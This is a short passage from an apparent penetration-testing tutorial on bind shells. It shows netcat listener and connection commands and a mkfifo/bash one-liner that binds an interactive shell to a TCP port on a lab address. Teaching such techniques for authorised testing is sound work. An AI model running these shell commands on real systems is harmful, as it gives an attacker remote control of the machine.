 With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

#### No. 1: Server - Target starting Netcat listener
```shell-session
$ nc -lvnp 7777
```
#### No. 2: Client - Attack box connecting to target
```shell-session
$ nc -nv 10.129.41.200 7777
```

## Establishing a Basic Bind Shell with Netcat
#### No. 1: Server - Binding a Bash shell to the TCP session
```shell-session
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
#### No. 2: Client - Connecting to bind shell on target
```shell-session
 nc -nv 10.129.41.200 7777
```
